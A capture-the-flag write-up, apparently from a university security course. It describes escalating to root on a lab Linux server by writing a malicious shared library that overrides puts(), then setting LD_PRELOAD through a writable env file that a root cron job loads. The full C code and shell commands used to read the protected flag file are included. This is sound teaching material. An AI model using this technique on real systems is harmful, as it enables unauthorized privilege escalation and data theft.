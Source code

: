 # Linux Environment 

## Exploration

Upon accessing the Linux server in the port `4006` of `ctf-fsi.fe.up.pt`, we were quick to search for potencial clues. Inside the directory `/home/flag_reader`, where we started, the following files were found:

![img.png](./images/env_start_files.png)

While checking their content, we immediately found our first clue in the file `admin_note.txt`:

![img.png](images/admin_note.png)

We could tell `/tmp` would have some clues.
Checking `main.c`, we found the location of our goal, the flag. It would be found in the file `/flags/flag.txt`:

![img.png](images/env_mainc.png)

We also find `reader`, which is the executable file for `main.c`, and `my_script.sh`, which **adds whatever is in the `env` file to the environment variables and executes `reader`**:

![img.png](images/my_script.png)

After attempting to execute both `reader` and `my_script.sh`, we kept getting the following message:

![img.png](images/reader_output.png)

We found it weird that the file did not exist despite being included in `main.c`. After trying to access `/flags`, we were denied permission to access it. It had become clear we would **need to have more permissions** in order to access the flag. 

After exploring `/tmp`, all we can find there is the `env` file `my_script.sh` refers to. Unlike in `/home/flag_reader`, where we **could not create or modify files**, it turned out we could do so in `/tmp`, including to the `env` file! 

The last clue was found using the `top` command, which displays the running processes. By using it, we could see that a "cron" process was running, **with "root" permissions**:

![img.png](images/env_top.png)

After reviewing the exercice's description, we realised **this "cron" was running `my_script.sh`, periodically**.
**We decided to exploit the environment variable "LD_PRELOAD"**, which, as we studied, loads the associated library before any others.

## Execution 

To get the most out of this vulnerability, we mostly worked inside `/tmp`. 
We started by creating a C file with "malicious" code, meant to write the flag on another file, using the following commands:

```sh
touch lib.c
echo "#include <stdio.h>
#include <stdlib.h>
int puts (const char *str)
{
    system(\"/usr/bin/cat /flags/flag.txt > /tmp/flag.txt\");
    return 0;
}" > /tmp/lib.c
```
We replaced the function puts(), since the program `reader` uses it.

Afterwards, we created a shared library in the same folder, from this C file:

```sh
gcc -c -o lib.o lib.c
gcc -shared -o lib.so lib.o
```

Lastly, all we had to do was set the environment variable:

```sh
echo LD_PRELOAD=/tmp/lib.so > env
```

With this done, all we had to do was wait until the "cron" ran. And a few moments later, it did.

![img.png](images/env_got_flag.png)

We found the flag ```flag{5ff2b5ce4a3db5ee5883cfb75e994b99}```!
